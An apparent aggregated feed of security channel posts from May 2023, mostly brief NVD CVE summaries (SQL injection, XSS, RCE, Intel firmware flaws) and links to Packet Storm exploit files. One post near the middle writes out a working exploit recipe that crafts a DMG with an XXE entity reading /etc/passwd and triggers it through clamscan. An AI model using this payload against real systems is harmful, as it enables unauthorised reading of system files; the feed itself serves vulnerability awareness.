<table><tr><td><b>→</b><a href="https://www.kitploit.com/2023/05/lfi-space-lfi-scan-tool.html">
https://www.kitploit.com/2023/05/lfi-space-lfi-scan-tool.html
</a>
</td></tr></table>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1096

<blockquote>
‼ CVE-2023-1096 ‼

SnapCenter versions 4.7 prior to 4.7P2 and 4.8 prior to 4.8P1 are susceptible to a vulnerability which could allow a remote unauthenticated attacker to gain access as an admin user.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25006

<blockquote>
‼ CVE-2023-25006 ‼

A malicious actor may convince a user to open a malicious USD file that may trigger a use-after-free vulnerability which could result in code execution.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48020

<blockquote>
‼ CVE-2022-48020 ‼

Vinteo VCC v2.36.4 was discovered to contain a reflected cross-site scripting (XSS) vulnerability via the conference parameter. This vulnerability allows attackers to inject arbitrary code which will be executed by the victim user's browser.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25460

<blockquote>
‼ CVE-2023-25460 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in CodeSolz Easy Ad Manager plugin &lt;&#61; 1.0.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-28414

<blockquote>
‼ CVE-2023-28414 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in ApexChat plugin &lt;&#61; 1.3.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22685

<blockquote>
‼ CVE-2023-22685 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Tips and Tricks HQ, Ruhul Amin Category Specific RSS feed Subscription plugin &lt;&#61; v2.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23810

<blockquote>
‼ CVE-2023-23810 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in SnapOrbital Panorama plugin &lt;&#61; 1.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25958

<blockquote>
‼ CVE-2023-25958 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Justin Saad Simple Tooltips plugin &lt;&#61; 2.1.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47879

<blockquote>
‼ CVE-2022-47879 ‼

A Remote Code Execution (RCE) vulnerability in /be/rpc.php in Jedox 2020.2.5 allows remote authenticated users to load arbitrary PHP classes from the 'rtn' directory and execute its methods.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23867

<blockquote>
‼ CVE-2023-23867 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Gautam Thapar Button Builder – Buttons X plugin &lt;&#61; 0.8.6 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23169

<blockquote>
‼ CVE-2023-23169 ‼

Synapsoft pdfocus 1.17 is vulnerable to local file inclusion and server-side request forgery Directory Traversal.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30246

<blockquote>
‼ CVE-2023-30246 ‼

SQL injection vulnerability found in Judging Management System v.1.0 allows a remote attacker to execute arbitrary code via the contestant_id parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2677

<blockquote>
‼ CVE-2023-2677 ‼

A vulnerability, which was classified as critical, was found in SourceCodester Covid-19 Contact Tracing System 1.0. This affects an unknown part of the file admin/establishment/manage.php. The manipulation of the argument id leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-228891.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31502

<blockquote>
‼ CVE-2023-31502 ‼

Altenergy Power Control Software C1.2.5 was discovered to contain a remote code execution (RCE) vulnerability via the component /models/management_model.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31508

<blockquote>
‼ CVE-2023-31508 ‼

A cross-site scripting (XSS) vulnerability in PrestaShop v1.7.7.4 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the message parameter in /contactform/contactform.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29791

<blockquote>
‼ CVE-2023-29791 ‼

kodbox &lt;&#61; 1.37 is vulnerable to Cross Site Scripting (XSS) via the debug information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27554

<blockquote>
‼ CVE-2023-27554 ‼

IBM WebSphere Application Server 8.5 and 9.0 is vulnerable to an XML External Entity Injection (XXE) attack when processing XML data. A remote attacker could exploit this vulnerability to expose sensitive information or consume memory resources. IBM X-Force ID: 249185.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25309

<blockquote>
‼ CVE-2023-25309 ‼

Cross Site Scripting (XSS) Vulnerability in Fetlife rollout-ui version 0.5, allows attackers to execute arbitrary code via a crafted url to the delete a feature functionality.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30394

<blockquote>
‼ CVE-2023-30394 ‼

MoveIT v1.1.11 was discovered to contain a cross-site scripting (XSS) vulenrability via the API authentication function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47129

<blockquote>
‼ CVE-2022-47129 ‼

PHPOK v6.3 was discovered to contain a remote code execution (RCE) vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22720

<blockquote>
‼ CVE-2023-22720 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Robert Macchi WP Links Page plugin &lt;&#61; 4.9.3 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2658

<blockquote>
‼ CVE-2023-2658 ‼

A vulnerability, which was classified as critical, has been found in SourceCodester Online Computer and Laptop Store 1.0. Affected by this issue is some unknown functionality of the file products.php. The manipulation of the argument c leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-228800.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2660

<blockquote>
‼ CVE-2023-2660 ‼

A vulnerability has been found in SourceCodester Online Computer and Laptop Store 1.0 and classified as critical. This vulnerability affects unknown code of the file view_categories.php. The manipulation of the argument c leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. VDB-228802 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2659

<blockquote>
‼ CVE-2023-2659 ‼

A vulnerability, which was classified as critical, was found in SourceCodester Online Computer and Laptop Store 1.0. This affects an unknown part of the file view_product.php. The manipulation of the argument id leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-228801 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2661

<blockquote>
‼ CVE-2023-2661 ‼

A vulnerability was found in SourceCodester Online Computer and Laptop Store 1.0 and classified as critical. This issue affects some unknown processing of the file /classes/Master.php. The manipulation of the argument id leads to sql injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-228803.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-11`

<blockquote>
HouseKit 1.0 SQL Injection
https://packetstormsecurity.com/files/172302/housekit10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172302/housekit10-sql.txt">
https://packetstormsecurity.com/files/172302/housekit10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-11`

<blockquote>
GaanaGawaana 1.0 SQL Injection
https://packetstormsecurity.com/files/172286/gaanagawaana10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172286/gaanagawaana10-sql.txt">
https://packetstormsecurity.com/files/172286/gaanagawaana10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29863

<blockquote>
‼ CVE-2023-29863 ‼

Medical Systems Co. Medisys Weblab Products v19.4.03 was discovered to contain a SQL injection vulnerability via the tem:statement parameter in the WSDL files.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2656

<blockquote>
‼ CVE-2023-2656 ‼

A vulnerability classified as critical has been found in SourceCodester AC Repair and Services System 1.0. Affected is an unknown function of the file /classes/Master.php?f&#61;delete_service. The manipulation of the argument id leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-228798 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2642

<blockquote>
‼ CVE-2023-2642 ‼

A vulnerability classified as critical has been found in SourceCodester Online Exam System 1.0. This affects an unknown part of the file adminpanel/admin/facebox_modal/updateCourse.php of the component GET Parameter Handler. The manipulation of the argument id leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-228771.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2643

<blockquote>
‼ CVE-2023-2643 ‼

A vulnerability classified as critical was found in SourceCodester File Tracker Manager System 1.0. This vulnerability affects unknown code of the file register/update_password.php of the component POST Parameter Handler. The manipulation of the argument new_password leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-228772.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2645

<blockquote>
‼ CVE-2023-2645 ‼

A vulnerability, which was classified as critical, was found in USR USR-G806 1.0.41. Affected is an unknown function of the component Web Management Page. The manipulation of the argument username/password with the input root leads to use of hard-coded password. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. It is recommended to change the configuration settings. VDB-228774 is the identifier assigned to this vulnerability. NOTE: The vendor was contacted early about this disclosure but did not respond in any way.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2653

<blockquote>
‼ CVE-2023-2653 ‼

A vulnerability classified as critical was found in SourceCodester Lost and Found Information System 1.0. Affected by this vulnerability is an unknown functionality of the file items/index.php. The manipulation of the argument cid leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-228781 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2652

<blockquote>
‼ CVE-2023-2652 ‼

A vulnerability classified as critical has been found in SourceCodester Lost and Found Information System 1.0. Affected is an unknown function of the file /classes/Master.php?f&#61;delete_item. The manipulation leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-228780.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2641

<blockquote>
‼ CVE-2023-2641 ‼

A vulnerability was found in SourceCodester Online Internship Management System 1.0. It has been rated as critical. Affected by this issue is some unknown functionality of the file admin/login.php of the component POST Parameter Handler. The manipulation of the argument email leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. VDB-228770 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30172

<blockquote>
‼ CVE-2023-30172 ‼

A directory traversal vulnerability in the /get-artifact API method of the mlflow platform up to v2.0.1 allows attackers to read arbitrary files on the server via the path parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-29840

<blockquote>
‼ CVE-2022-29840 ‼

Server-Side Request Forgery (SSRF) vulnerability that could allow a rogue server on the local network to modify its URL to point back to the loopback adapter was addressed in Western Digital My Cloud OS 5 devices. This could allow the URL to exploit other vulnerabilities on the local server.This issue affects My Cloud OS 5 devices before 5.26.202.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31151

<blockquote>
‼ CVE-2023-31151 ‼

An Improper Certificate Validation vulnerability in the Schweitzer Engineering Laboratories Real-Time Automation Controller (SEL RTAC) Web Interfacecould allow a remote unauthenticated attacker to conduct a man-in-the-middle (MitM) attack.See SEL Service Bulletin dated 2022-11-15 for more details.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31166

<blockquote>
‼ CVE-2023-31166 ‼

An Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability in the Schweitzer Engineering Laboratories Real-Time Automation Controller (SEL RTAC) Web Interface could allow a remote authenticated attacker to create folders in arbitrary paths of the file system.See SEL Service Bulletin dated 2022-11-15 for more details.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31161

<blockquote>
‼ CVE-2023-31161 ‼

An Improper Input Validation vulnerability in the Schweitzer Engineering Laboratories Real-Time Automation Controller (SEL RTAC) Web Interface could allow an authenticated remote attacker to use internal resources, allowing a variety of potential effects.See SEL Service Bulletin dated 2022-11-15 for more details.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31162

<blockquote>
‼ CVE-2023-31162 ‼

An Improper Input Validation vulnerability in the Schweitzer Engineering Laboratories Real-Time Automation Controller (SEL RTAC) Web Interface could allow a remote authenticated attacker to arbitrarily alter the content of a configuration file.See SEL Service Bulletin dated 2022-11-15 for more details.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31149

<blockquote>
‼ CVE-2023-31149 ‼

An Improper Input Validation vulnerability in the Schweitzer Engineering Laboratories Real-Time Automation Controller (SEL RTAC) Web Interface could allow a remote authenticated attacker to execute arbitrary code.See SEL Service Bulletin dated 2022-11-15 for more details.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31148

<blockquote>
‼ CVE-2023-31148 ‼

An Improper Input Validation vulnerability in the Schweitzer Engineering Laboratories Real-Time Automation Controller (SEL RTAC) Web Interface could allow a remote authenticated attacker to execute arbitrary code.See SEL Service Bulletin dated 2022-11-15 for more details.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-32070

<blockquote>
‼ CVE-2023-32070 ‼

XWiki Platform is a generic wiki platform. Prior to version 14.6-rc-1, HTML rendering didn't check for dangerous attributes/attribute values. This allowed cross-site scripting (XSS) attacks via attributes and link URLs, e.g., supported in XWiki syntax. This has been patched in XWiki 14.6-rc-1. There are no known workarounds apart from upgrading to a fixed version.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0007

<blockquote>
‼ CVE-2023-0007 ‼

A cross-site scripting (XSS) vulnerability in Palo Alto Networks PAN-OS software on Panorama appliances enables an authenticated read-write administrator to store a JavaScript payload in the web interface that will execute in the context of another administrator’s browser when viewed.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30353

<blockquote>
‼ CVE-2023-30353 ‼

Shenzen Tenda Technology IP Camera CP3 V11.10.00.2211041355 allows unauthenticated remote code execution via an XML document.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2630

<blockquote>
‼ CVE-2023-2630 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository pimcore/pimcore prior to 10.5.21.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41646

<blockquote>
‼ CVE-2022-41646 ‼

Insufficient control flow management in the Intel(R) IPP Cryptography software before version 2021.6 may allow an unauthenticated user to potentially enable information disclosure via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-33894

<blockquote>
‼ CVE-2022-33894 ‼

Improper input validation in the BIOS firmware for some Intel(R) Processors may allow a privileged user to potentially enable escalation of privilege via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-25976

<blockquote>
‼ CVE-2022-25976 ‼

Improper input validation in the Intel(R) VROC software before version 7.7.6.1003 may allow an authenticated user to potentially enable denial of service via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-32577

<blockquote>
‼ CVE-2022-32577 ‼

Improper input validation in BIOS Firmware for some Intel(R) NUC Kits before version PY0081 may allow a privileged user to potentially enable information disclosure or denial of service via local access

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38787

<blockquote>
‼ CVE-2022-38787 ‼

Improper input validation in firmware for some Intel(R) FPGA products before version 2.7.0 Hotfix may allow an authenticated user to potentially enable escalation of privilege via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-28699

<blockquote>
‼ CVE-2022-28699 ‼

Improper input validation for some Intel(R) NUC BIOS firmware may allow a privileged user to potentially enable escalation of privilege via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25776

<blockquote>
‼ CVE-2023-25776 ‼

Improper input validation in some Intel(R) Server Board BMC firmware before version 2.90 may allow a privileged user to enable information disclosure via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25175

<blockquote>
‼ CVE-2023-25175 ‼

Improper input validation in some Intel(R) Server Board BMC firmware before version 2.90 may allow a privileged user to enable information disclosure via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25772

<blockquote>
‼ CVE-2023-25772 ‼

Improper input validation in the Intel(R) Retail Edge Mobile Android application before version 3.0.301126-RELEASE may allow an authenticated user to potentially enable denial of service via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-34147

<blockquote>
‼ CVE-2022-34147 ‼

Improper input validation in BIOS firmware for some Intel(R) NUC 9 Extreme Laptop Kits, Intel(R) NUC Performance Kits, Intel(R) NUC Performance Mini PC, Intel(R) NUC 8 Compute Element, Intel(R) NUC Pro Kit, Intel(R) NUC Pro Board, and Intel(R) NUC Compute Element may allow a privileged user to potentially enable escalation of privilege via local access.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-10`

<blockquote>
VOTAB Voting Quiz PHP Script 1.0 SQL Injection
https://packetstormsecurity.com/files/172275/votab10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172275/votab10-sql.txt">
https://packetstormsecurity.com/files/172275/votab10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2023-05-10`

<blockquote>
From One Vulnerability to Another: Outlook Patch Analysis Reveals Important Flaw in Windows API

…
An unauthenticated attacker on the internet could use the vulnerability to coerce an Outlook client to connect to an attacker-controlled server. This results in NTLM credentials theft. It is a zero-click vulnerability, meaning it can be triggered with no user interaction
…

— https://www.akamai.com/blog/security-research/important-outlook-vulnerability-bypass-windows-api
</blockquote>

<table><tr><td><b>→</b><a href="https://www.akamai.com/blog/security-research/important-outlook-vulnerability-bypass-windows-api">
https://www.akamai.com/blog/security-research/important-outlook-vulnerability-bypass-windows-api
</a>
<blockquote>
Akamai researchers explore a new critical vulnerability in Windows that could lead to a bypass of CVE-2023-23397’s mitigation.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2023-05-10`

* https://github.com/nokn0wthing/CVE-2023-25002

<blockquote>
💥CVE-2023-20052 exploit 

To create malicious DMG file:
$ git clone https://github.com/nokn0wthing/CVE-2023-20052.git
$ cd CVE-2023-20052
$ sudo docker build -t cve-2023-20052 .
$ sudo docker run -v $(pwd):/exploit -it cve-2023-20052 bash

$ genisoimage -D -V &quot;exploit&quot; -no-pad -r -apple -file-mode 0777 -o test.img . &amp;&amp; dmg dmg test.img test.dmg
$ bbe -e 's|&lt;!DOCTYPE plist PUBLIC &quot;-//Apple Computer//DTD PLIST 1.0//EN&quot; &quot;http://www.apple.com/DTDs/PropertyList-1.0.dtd&quot;&gt;|&lt;!DOCTYPE plist [&lt;!ENTITY xxe SYSTEM &quot;/etc/passwd&quot;&gt; ]&gt;|' -e 's/blkx/&amp;xxe\;/' test.dmg -o exploit.dmg

To trigger exploit:
$ clamscan --debug exploit.dmg
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47590

<blockquote>
‼ CVE-2022-47590 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in Fugu Maintenance Switch plugin &lt;&#61; 1.5.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-33961

<blockquote>
‼ CVE-2022-33961 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in WaspThemes Visual CSS Style Editor plugin &lt;&#61; 7.5.8 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47587

<blockquote>
‼ CVE-2022-47587 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Cornel Raiu WP Search Analytics plugin &lt;&#61; 1.4.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46817

<blockquote>
‼ CVE-2022-46817 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Flyzoo Flyzoo Chat plugin &lt;&#61; 2.3.3 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47441

<blockquote>
‼ CVE-2022-47441 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in Charitable Donations &amp; Fundraising Team Donation Forms by Charitable plugin &lt;&#61; 1.7.0.10 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47606

<blockquote>
‼ CVE-2022-47606 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Tim Stephenson WP-CORS plugin &lt;&#61; 0.2.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46819

<blockquote>
‼ CVE-2022-46819 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Gopi Ramasamy Continuous announcement scroller plugin &lt;&#61; 13.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47436

<blockquote>
‼ CVE-2022-47436 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in MantraBrain Yatra plugin &lt;&#61; 2.1.14 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-27856

<blockquote>
‼ CVE-2022-27856 ‼

Auth. (editor+) Stored Cross-Site Scripting (XSS) vulnerability in Atlas Gondal Export All URLs plugin &lt;&#61; 4.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47423

<blockquote>
‼ CVE-2022-47423 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Ulf Benjaminsson WP-dTree plugin &lt;&#61; 4.4.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47600

<blockquote>
‼ CVE-2022-47600 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in I Thirteen Web Solution Mass Email To users plugin &lt;&#61; 1.1.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

